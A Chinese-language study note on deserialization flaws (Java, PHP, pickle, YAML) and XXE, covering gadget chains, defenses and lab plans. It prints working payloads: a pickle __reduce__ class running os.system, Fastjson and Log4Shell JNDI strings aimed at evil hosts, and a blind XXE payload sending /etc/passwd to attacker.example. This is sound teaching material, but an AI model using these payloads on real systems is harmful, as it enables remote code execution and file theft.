


# 反序列化与 XXE 详解

- 日期：2026-11-04
- 所属大纲阶段：第 3 阶段 Web 安全
- 参考资料：OWASP Deserialization Cheat Sheet、《Java 安全漫谈》反序列化章节（码龄 / phith0n）、ysoserial 项目 README、PortSwigger Academy（XXE 模块）、Christopher Frohoff 的《Marshalling Pickles》演讲（2015）
- 前置阅读：[02-Web后端常见漏洞与攻击](02-Web后端常见漏洞与攻击.md)
- 说明：利用代码仅限本地靶场（自建 Docker、Vulhub）复现。

---

## 1. 反序列化漏洞详解

### 1.1 概念对齐：序列化 vs 反序列化

```
序列化（marshal/serialize）：内存对象 → 字节流（便于存储/传输）
反序列化（unmarshal/deserialize）：字节流 → 内存对象
```

JSON 也是序列化格式，但 JSON 反序列化只还原**数据**（字符串/数字/数组/字典）；二进制对象序列化格式（Java Object Stream、PHP serialize、Python pickle）还原的是**对象**——包括对象的类型（类名）与生命周期回调（构造、`readObject`、`__wakeup` 等）。

**漏洞本质：反序列化会执行「数据中声明的类」的生命周期代码。当数据不可信时，等于让攻击者决定「实例化哪些类、触发哪些方法」。** 口诀：反序列化即执行（deserialization = code execution 的原语）。

### 1.2 Gadget Chain（利用链）的构造思想

应用本身可能没有任何危险方法，但 classpath 里存在大量第三方库。攻击者在序列化流里声明：
「实例化 GadgetA，它的属性触发 GadgetB 的方法，最终调用 `Runtime.exec()`」。

关键认识：**漏洞不在于某个库「有恶意代码」，而在于「攻击者可控的类图 + 库里已有的普通方法」恰好能拼出危险调用**。所以修复（升级库版本，移除 gadget）和检测（黑名单类名）都是打地鼠，根因是「反序列化了不可信数据」本身。

### 1.3 Java 反序列化详解

**序列化格式**：`AC ED 00 05` 魔数（十六进制流开头特征——流量检测特征之一）、`rO0AB`（Base64 后特征）。入口 API：`ObjectInputStream.readObject()`。

出现面：RMI、JMX、JMS 消息、HTTP Session 持久化（Tomcat/Ccluster session 复制）、自定义协议「记住我」Cookie（Apache Shiro-721/-550 就是 RememberMe Cookie 的 AES 加密序列化数据）。

**Commons-Collections 利用链骨架**（理解 gadget 思想的最经典教材，2015 年披露）：


工具 ysoserial 把各 gadget 链打包成命令行生成器（`java -jar ysoserial.jar CommonsCollections6 "id" > payload.bin`）——仅用于授权测试与自检。

**Fastjson 的特殊性**：JSON 文本本身无对象语义，但 Fastjson 的 `@type` 字段允许 JSON 声明反序列化目标类（autoType），`{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://evil/obj",...}` 触发 JNDI 加载 → RCE。教训：**给 JSON 反序列化器开「按数据指定类型」的能力 = 引入全部反序列化风险**。

**JNDI 注入与 Log4Shell**：Java 通过 JNDI 可从远程 LDAP/RMI 加载类。Log4Shell（CVE-2021-44228, 2021.12）之所以震撼：**任何会被记录进日志的字符串**（UA、参数、消息头）里的 `${jndi:ldap://evil.example/x}` 都会触发 lookup 加载远程类。日志系统变成 RCE 入口，影响面横扫全球（游戏、云服务、甲骨文中间件）。靶场复现（Vulhub log4j2）。

### 1.4 PHP 反序列化详解

**serialize 格式**（读得懂 payload 是基本功）：



**Magic 方法（自动触发的生命周期钩子）**：

| 方法 | 触发时机 | 常见 gadget 角色 |
|---|---|---|
| `__construct` / `__destruct` | 构造 / 对象销毁（反序列化后脚本结束必触发 destruct） | 链的起点 |
| `__wakeup` | 反序列化时 | 链的起点（CVE-2016-7124：属性个数不匹配可跳过 wakeup） |
| `__toString` | 对象被当字符串 | echo/print 时触发 |
| `__call` | 调用不可访问方法 | 链中间件 |
| `__get` / `__set` | 读写不可访问属性 | 链中间件 |
| `__invoke` | 对象被当函数调用 | 链终点调用 |

**POP 链（Property-Oriented Programming）**：审计思路=从 sink（`eval`/`system`/`file_put_contents`）反向找谁调用它，逐级向前找可控属性，直到某个 magic 方法。各框架的历史链（Laravel、ThinkPHP、Monolog）就是现成拼图——CTF 反序列化题的标准玩法。

**phar 反序列化**：`phar://` 协议解析 phar 包时会把 manifest 里的 metadata 反序列化——「文件操作函数触发反序列化」，绕开 `unserialize()` 入口（`file_exists('phar://x.jpg')` 即可触发），与文件上传漏洞天然组合。

### 1.5 Python pickle 详解

pickle 是一个**基于栈的虚拟机**：字节码 `cos\nsystem\n(S'id'\ntR.` 直接调用 `os.system('id')`。利用的最小 payload：

```python
import pickle, base64
class Evil:
    def __reduce__(self):                    # 反序列化时决定「如何重建对象」
        return (os.system, ("id > /tmp/pwned",))
payload = base64.b64encode(pickle.dumps(Evil())).decode()
# 若目标 pickle.loads(base64.b64decode(payload)) → 触发
```
出现面：机器学习模型文件（pickle 加载即执行——只 load 可信来源的 .pkl/.pt）、Celery 任务序列化（历史默认 pickle）、缓存（Redis 存 pickle 的老代码）、Django/Flask session 用 pickle 的错误实践（应改 itsdangerous JSON 签名）。

**pickle 永远不要反序列化不可信数据，无任何缓解措施**（`pickletools.dis` 审计也只能看不能拦）。

### 1.6 .NET / Ruby / 其他

- .NET：`BinaryFormatter`（微软官方已标记危险并弃用）、ViewState（`machineKey` 泄露/空密钥时，伪造页面 ViewState 反序列化 RCE，`ysoserial.net` 生成）。
- Ruby：`Marshal.load`（通用 gadget 链 Universal RCE deserializer for Ruby 2.x-3.x）。
- YAML：PyYAML `yaml.load` 不指定 `SafeLoader` 时（历史默认）可实例化任意对象（`!!python/object/apply:os.system ['id']`）；Ruby 的 `YAML.load` 同理（FIX: `safe_load`）。

### 1.7 防御详解（OWASP 排序）

1. **不要反序列化不可信数据**（根本）。改用 JSON 等纯数据格式 + schema 校验。
2. 无法更换格式时：
   - **完整性保护**：HMAC 签名序列化数据，加载前验签（防篡改——Shiro 修复思路之一；但密钥管理必须严格，Shiro-550 就是默认密钥）；
   - **类型白名单**：Java 可用 SerialKiller / look-ahead 反序列化过滤器（JEP 290 `ObjectInputFilter`，JDK 9+ 内置）；Fastjson 关闭 autoType 或升级到严格白名单版；
   - **权限隔离**：跑在最小权限容器里（ gadget 成功也难横向）。
3. **监控**：流量中检测 `AC ED 00 05` / `rO0AB` 特征、异常 ClassNotFoundException 日志（gadget 类缺失时抛出——是入侵信号）。
4. **依赖治理**：SerialDetector 等工具扫描 classpath 中的已知 gadget 库；跟踪 CVE 及时升级（打地鼠，但必须打）。
5. 框架最佳实践：Session 不落序列化二进制（改 Redis hash / JWT）；Celery 用 JSON 序列化；ML 推理服务只加载自管存储的模型。

---

## 2. XXE 详解

### 2.1 XML 实体机制（漏洞的土壤）

DTD（文档类型定义）允许声明实体（可理解为 XML 的宏）：

```xml
<?xml version="1.0"?>
<!DOCTYPE note [
  <!ENTITY internal "普通内部实体">            <!-- 内部实体：替换文本 -->
  <!ENTITY external SYSTEM "file:///etc/passwd">  <!-- 外部实体：SYSTEM 指向 URI！ -->
  <!ENTITY % param "<!ENTITY ¤t;'>"             <!-- 参数实体：% 名，仅 DTD 内使用 -->
]>
<msg>&external;</msg>
```
`SYSTEM` 实体由 XML 解析器**主动发起请求/读取文件**——这就是 XXE 的执行原语：文件读取 + 任意协议请求（SSRF）。

### 2.2 利用场景分级

```
① 有回显 XXE：直接把文件内容嵌进响应
<!ENTITY xxe SYSTEM "file:///etc/hostname"> → <msg>&xxe;</msg> 返回 hostname

② 报错 XXE：文件内容塞进解析报错信息带回
<!ENTITY xxe SYSTEM "file:///nonexist/">   → 错误消息含路径/内容片段

③ 盲 XXE（OOB 外带）：服务器不回显，用参数实体把数据拼进 URL 发到攻击者服务器
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.example/?x=%file;'>">
%eval; %exfil;
（参数实体必须两层嵌套——DTD 内部引用外部 DTD 的经典手法）

④ SSRF 联动：SYSTEM 指向内网地址/云元数据（169.254.169.254）→ XXE 成为 SSRF 的载体

⑤ DoS：Billion Laughs（指数爆炸实体展开）
<!ENTITY a "lol"><!ENTITY b "&a;&a;&a;&a;...">... 展开指数增长耗尽内存
```

### 2.3 常见出现面

- SOAP / XML-RPC 老接口（`Content-Type: text/xml` 的 POST）。
- **文件上传**：SVG（本质是 XML，`<svg xmlns...><external-entity>` 在服务端解析缩略图时触发）、Office 文档（docx/xlsx = zip 内一堆 XML）、OFD/PDF 附件。
- SAML 断言解析（身份联邦的老重灾区）。
- 配置导入功能（接受 XML 的任何地方）。

### 2.4 各解析器禁用配置（速查）

```java
// Java DocumentBuilderFactory / SAXParser（默认有漏洞的祖传重灾区）
factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);  // 连 DTD 都不要（最严）
factory.setXIncludeAware(false);
factory.setExpandEntityReferences(false);
```
```python
# Python lxml（libxml2 ≥2.9 默认已禁外部实体；显式控制）
parser = etree.XMLParser(resolve_entities=False, no_network=True)
# 标准库 xml.etree 本身不解析外部实体（历史 CVE 与 expat 相关，保持升级）
```
```php
// PHP libxml
libxml_disable_entity_loader(true);  // PHP 8.0 起默认禁用且函数废弃
```
其他：.NET `XmlReaderSettings.DtdProcessing = Prohibit`；Go 默认安全（encoding/xml 不支持外部实体）。

### 2.5 真实案例

- **微信支付 SDK XXE（2018）**：官方 SDK 的回调通知解析 XML 未禁外部实体，商户服务器可被读取文件/探测内网——供应链视角：SDK 的洞=所有接入商户的洞。
- **各类 OA/财务软件 XXE 系列**（致远、用友历史 CVE）：内网系统出洞，直接影响政企内网边界。
- **Facebook（2014 赏金）**：IP 解析端点 XXE 读取 /etc/hosts 内网信息。

---

## 3. 反序列化 × XXE × 文件上传的组合思维

单独看各漏洞可能「危害有限」，组合后变成 RCE 的常见路径：

```
上传 SVG（XXE）→ 读文件/内网探测（SSRF）→ 拿到配置文件里的凭证
XML 解析的 SAML 签名逻辑缺陷 → 越权
文件上传（图片马）+ LFI/phar → 反序列化 gadget → RCE
记住：渗透测试的本质是「能力叠加」；防御的本质是「把每一层都堵住，让链条断在第一环」。
```

---

## 4. 复习自查

- [ ] 能解释「为什么 JSON 反序列化一般安全而二进制对象序列化危险」
- [ ] 能画出 Commons-Collections 利用链的四级结构
- [ ] 能读懂 PHP payload 的每个字段，并从 sink 反向构造一条 POP 链
- [ ] 能写出 pickle `__reduce__` payload 并说明修复（没有缓解，只有不用）
- [ ] 能写出盲 XXE 的 OOB payload 并解释参数实体的作用
- [ ] 能给出 Java/Python/PHP 禁用 XXE 的具体配置行

## 延伸实验（labs 计划）

1. Vulhub：Shiro 反序列化、Fastjson、Log4j2 RCE、weblogic 三个靶场各复现一次，理解入口差异。
2. CTF 平台 PHP 反序列化入门题 10 道（POP 链构造），工具：phpggc 对照学习。
3. 自建 demo：Flask + pickle 会话 → 复现 → 改 itsdangerous 修复；Python 发送恶意 SVG 到 Java SAX 解析器复现 XXE → 加 feature 修复。
4. ysoserial 自检：对本机 classpath 跑 SerialDetector，看自己项目里有多少 gadget 库。

---

## 附：ASCII 图 → Mermaid 替换清单

| 原 ASCII 图（小节 · 内容） | 替换后类型 |
| --- | --- |
| 归档笔记 ·「1.3 Java 反序列化详解」节 · Commons-Collections 利用链骨架图 | flowchart TD |
| 归档笔记 ·「1.4 PHP 反序列化详解」节 · PHP 序列化串字段解剖图（原串整体入首节点标签） | flowchart LR |
